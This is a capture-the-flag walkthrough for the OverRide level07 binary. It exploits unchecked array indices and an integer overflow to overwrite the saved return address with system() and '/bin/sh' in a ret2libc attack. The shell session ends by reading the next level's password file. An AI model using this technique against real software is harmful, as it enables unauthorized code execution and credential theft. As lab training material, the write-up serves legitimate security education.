 # level07 walkthrough

## the binary
``` shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 42
 Index: 42
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 42
 Index: 1
 Completed store command successfully
Input command: store
 Number: 42
 Index: 0
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: read
 Index: 0
 Number at data[0] is 0
 Completed read command successfully
Input command: read
 Index: 42
 Number at data[42] is 0
 Completed read command successfully
 Input command: read
 Index: 1
 Number at data[1] is 42
 Completed read command successfully
```

## methodology
- ret2libc attack

As we observed the behavior of the binary with various inputs and examined the disassembled code, we realized several things:

- the main functionality involves storing and reading numbers from an array
- the array has 100 active number positions
- there are no limits on indices, so we can access stack memory
- some positions are protected (zero + indices divisible by 3)
- the `env` and `argv` are overwritten before the storage is run (= no shellcode)

We start by printing stack variables stored in indices greater than 100:
``` shell
level07@OverRide:/$ bash /tmp/print_stack.sh
tab[100]: 0x1
tab[101]: 0x64616572
tab[102]: 0x0
tab[103]: 0x0
tab[104]: 0x0
tab[105]: 0x0
tab[106]: 0xd18b1b00
tab[107]: 0xf7feb620
tab[108]: 0x0
tab[109]: 0x8048a09
tab[110]: 0xf7fceff4
tab[111]: 0x0
tab[112]: 0x0
tab[113]: 0x0
tab[114]: 0xf7e45513
tab[115]: 0x1
tab[116]: 0xffffd6c4
tab[117]: 0xffffd6cc
tab[118]: 0xf7fd3000
tab[119]: 0x0
tab[120]: 0xffffd61c
tab[121]: 0xffffd6cc
tab[122]: 0x0
tab[123]: 0x80482b8
tab[124]: 0xf7fceff4
tab[125]: 0x0
```

The `EIP` register is located at position 114, which is unfortunately reserved for wil. Since the `EIP` register tells the CPU where to execute the next instruction, gaining control of it is crucial. To access this position, we use integer overflow:
``` vbnet
UINT_MAX = 4294967295 (+ 1 for overflow)

4294967296 / 4 (int) + 114 = 1073741938

└─> accessing position 1073741938 allows us to store/read to confirm we operate on 114
```

Having access to `EIP` means we can perform a ret2libc attack. We only need to find the addresses of `system` and `/bin/sh`, as `exit` can be executed by the binary itself. Lets convert these addresses to decimal for storage in the array:
``` vbnet
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
└─> decimal: 4159090384

(gdb) find &system, +999999999, "/bin/sh"
0xf7f897ec
└─> decimal: 4160264172
```

As we tested multiple positions, we found that the functional position for `/bin/sh` is 116. Therefore, upon execution of the binary, we need to make the following changes:
``` vbnet
position 114 = system address
└─> tab[1073741938] = 4159090384

position 116 = /bin/sh address
└─> tab[116] = 4160264172

quit command = exit address
```

## flag
``` shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
